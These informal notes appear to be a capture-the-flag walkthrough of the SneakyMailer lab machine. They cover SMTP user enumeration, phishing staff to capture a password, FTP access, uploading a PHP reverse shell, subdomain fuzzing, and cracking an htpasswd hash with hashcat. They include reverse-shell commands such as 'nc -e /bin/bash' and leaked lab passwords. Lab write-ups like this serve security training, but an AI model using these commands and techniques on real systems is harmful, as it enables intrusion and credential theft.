add sneakycorp.htb to /etc/hosts with its ip address

verify emails exist using the port using:

```
nc 10.10.10.197 25
```
and then

```
vrfy laelgreer@sneakymailer.htb

```

try smtp enumeration using this: https://www.hackingarticles.in/4-ways-smtp-enumeration/ and fail
try sending mails using this syntax and try to get a reverse shell using ```nc -e /bin/bash yourip port (nc -vlp on the attacker side) ```

reverse shell doesnt work but putting nc on port 80 would make it a simple http request, and u can send it via browser and try sending it mails,
test it on ur local by oopening a browser and typing http://localhost


for sending emails use 
https://www.wikihow.com/Send-Email-Using-Telnet


tried the following and failed
```
nc 10.10.10.197 25
220 debian ESMTP Postfix (Debian/GNU)
MAIL FROM: laelgreer@sneakymailer.htb
250 2.1.0 Ok
RCPT TO: glorialittle@sneakymailer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
http://10.10.14.117

<CR><LF>.<CR><LF>

.
250 2.0.0 Ok: queued as E99702470F
quit
221 2.0.0 Bye
```


to see all available commnad use ehlo command at port 25
```

ehlo
501 Syntax: EHLO hostname
ehlo 10.10.10.197
250-debian
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
```


https://linux.die.net/man/1/swaks
after that try using swaks and pray to science that all will be good.

using swaks like
```
swaks -to paulbyrd@sneakymailer.htb -server 10.10.10.197 -from glorialittle@sneakymailer.htb -body "http://10.10.14.117/"
```
didnt work the out put was crap


we finally created a custom shel script as in mailer.sh

run that with the cla as cewlmails.txt and  listen on port 80 with nc using ```nc -vlp 80```


once the script finishes u will get the following on the listener ``` firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt```

which can be edited as:
```
 firstName=Paul
&lastName=Byrd&
email=paulbyrd%40sneakymailer.htb
& password = %5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
& rpassword = %5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```
which on url decoding gives "
```
^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```


using this password i tried creating a mail client as sneapy.py but it didint work and i was told authentication was failed
i checked a few forums andit mentioned evolution hence i am trying that
 and it worked


found this in the sent items
"
llo administrator, I want to change this password for the developer account
 
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
 
Please notify me when you do it"

looks like this is the password will try on ftb and ssh

it doesnt work on ssh but i can sign in to ftp
 via:
``` ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:kali): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Oct 02 11:01 dev
226 Directory send OK.
ftp> tp 10.10.10.197
?Invalid command
ftp> Connected to 10.10.10.197.
?Invalid command
ftp> 220 (vsFTPd 3.0.3)
?Invalid command
ftp> Name (10.10.10.197:kali): developer
?Invalid command
```


Then i downnloaded the reverse shell php from pentest monkey from https://github.com/pentestmonkey/php-reverse-shell

after logging in ftp u can put it to ftp using the following commands after logging in:
```
cd dev
put php-reverse-shell.php
```

lil note: https://github.com/danielmiessler/SecLists--> install this using ```apt install seclists```

couldnt find it in the subdirectories forum mentions subdomain, in seclists subdomains can be found at "/usr/share/seclists/Discovery/DNS/"  so check subdomains using the following command
```
wfuzz -c -f subdomainSneakyMailer.log -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt  -u 'http://10.10.10.197/' -H 'Host:FUZZ.sneakycorp.htb' -t 50 --hc 404,301

```
u will find the dev subdowmain check the logs in subdomainSneakyMailer.log 

now change the /etc/hosts files and put the subdomain and remove the previous entry meaning now ur hosts file must contains:
``` 10.10.10.197 dev.sneakycorp.htb
```
once updated put the reverseshell.php using ftp

use nc to open the port listening via ```nc -vlp 1234 ```
now go to the link on browser that is ```dev.sneakycorp.htb/reverseshell.php```
 PS: use this```python -c 'import pty; pty.spawn("/bin/bash")'``` mentioned at this website "https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/" for an upgraded interactive shell.
 ur netcat will give u a shell for www-data, with that go to ```/var/www/pypi.sneakycorp.htb```
 
u will find a ".htpasswd" file there with the following content ```pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```
on identifying the hash using hashid tool we find the following: 
``` hashid -m '$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/'
Analyzing '$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/'                                                                                                                                                                                          
[+] MD5(APR) [Hashcat Mode: 1600]                                                                                                                                                                                                          
[+] Apache MD5 [Hashcat Mode: 1600]
```
PS: -m is for the output of hashcat
on using rockyou wordlist  with hashcat we find the following:
```
hashcat -m 1600 -a 0 --force -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt
User: $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
password: soufianeelhaoui
```


